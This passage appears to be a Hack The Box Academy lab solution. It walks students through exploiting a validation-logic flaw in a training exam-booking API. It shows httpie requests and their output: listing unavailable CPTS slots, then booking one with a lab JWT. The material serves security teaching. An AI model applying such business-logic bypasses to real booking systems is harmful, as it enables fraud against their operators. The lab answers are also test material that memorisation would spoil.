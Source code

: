 Having attained a JWT token, students need to get unavailable CPTS slots between a period starting from the current day (the end date does not matter) by sending a request to the `/api/exams/availability` endpoint (mapped to `src/src/controllers/exam-controllers.js`, lines 69-125), passing 1 for the `id` field to specify the CPTS exam:

Code: shell

```shell
http POST http://STMIP:STMPO/api/exams/availability id=1 startDate=2023-09-20T00:00:00.000Z endDate=2023-09-30T00:00:00.000Z | jq
```

```
┌─[eu-academy-1]─[10.10.15.223]─[htb-ac-413848@htb-mxeyt2skgs]─[~]
└──╼ [★]$ http POST http://94.237.62.195:37203/api/exams/availability id=1 startDate=2023-09-20T00:00:00.000Z endDate=2023-10-20T00:00:00.000Z | jq

{
    "unavailableSlots": [
        "2023-09-27T00:00:00.000Z",
        "2023-09-30T00:00:00.000Z",
        "2023-10-01T00:00:00.000Z",
        "2023-10-02T00:00:00.000Z",
        "2023-10-03T00:00:00.000Z",
        <SNIP>
    ]
}
```

Students need to exploit the validation logic disparity bug by picking any unavailable slot with a date in the future (excluding the current day), as the question states. To book a CPTS exam slot, students need to send a POST request to the `/api/exams/book` endpoint (mapped to `src/src/controllers/exam-controllers.js`, lines 164-239):

Code: shell

```shell
http POST http://STMIP:STMPO/api/exams/book id=1 date=2023-09-30T00:00:00.000Z --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.72]─[htb-ac-413848@htb-azrytaqsom]─[~]
└──╼ [★]$ http POST http://94.237.56.76:43639/api/exams/book id=1 date=2023-09-30T00:00:00.000Z --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsIm5hbWUiOiJIVEIgU3R1ZGVudCIsInVzZXJuYW1lIjoiaHRiLXN0dWRlbnQiLCJlbWFpbCI6Imh0Yi1zdHVkZW50QGFjYWRlbXkuaHRiIiwicmVnaXN0cmF0aW9uRGF0ZSI6IjIwMjMtMDEtMDFUMDA6MDA6MDAuMDAwWiIsImN1YmVzIjozMCwic3Vic2NyaXB0aW9uIjp7InVzZXJJZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsInN1YnNjcmlwdGlvbk5hbWUiOiJmcmVlIiwiZXhwaXJlc0F0IjoiMjEwMC0wMS0wMVQwMDowMDowMC4wMDBaIn0sImlhdCI6MTY5NTgxMDM2MiwiZXhwIjoxNjk1ODk2NzYyfQ.hqRvbNJdi6sJNIWT_ov2UqougxZVB6MvkAx2dDM0xhg"

{
    "message": "HTB Certified Penetration Testing Specialist (CPTS) exam successfully booked for 30/09/2023."
}
```
